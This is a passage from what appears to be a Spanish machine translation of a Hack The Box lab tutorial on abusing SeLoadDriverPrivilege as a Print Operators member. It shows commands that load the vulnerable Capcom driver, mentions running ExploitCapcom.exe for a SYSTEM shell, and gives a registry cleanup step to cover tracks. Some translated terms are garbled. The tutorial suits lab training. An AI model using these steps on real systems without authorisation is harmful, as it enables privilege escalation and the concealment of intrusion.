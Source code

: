   Operadores de impresión

```cmd-session
C:\htb> EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys

[+] Enabling SeLoadDriverPrivilege
[+] SeLoadDriverPrivilege Enabled
[+] Loading Driver: \Registry\User\S-1-5-21-454284637-3659702366-2958135535-1103\System\CurrentControlSet\Capcom
NTSTATUS: c000010e, WinError: 0
```

Entonces correríamos`ExploitCapcom.exe`para hacer un caparazón del sistema o ejecutar nuestro binario personalizado.

---

## Limpieza

#### Eliminación de la clave del registro

Podemos cubrir un poco nuestras pistas eliminando la clave de registro agregada anteriormente.

  Operadores de impresión

```cmd-session
C:\htb> reg delete HKCU\System\CurrentControlSet\Capcom

Permanently delete the registry key HKEY_CURRENT_USER\System\CurrentControlSet\Capcom (Yes/No)? Yes

The operation completed successfully.
```

Nota: Dado que Windows 10 versión 1803, el "SeloaddrerPrivilege" no es explotable, ya que ya no es posible incluir referencias a claves de registro en "HKEY_CURRENT_USER".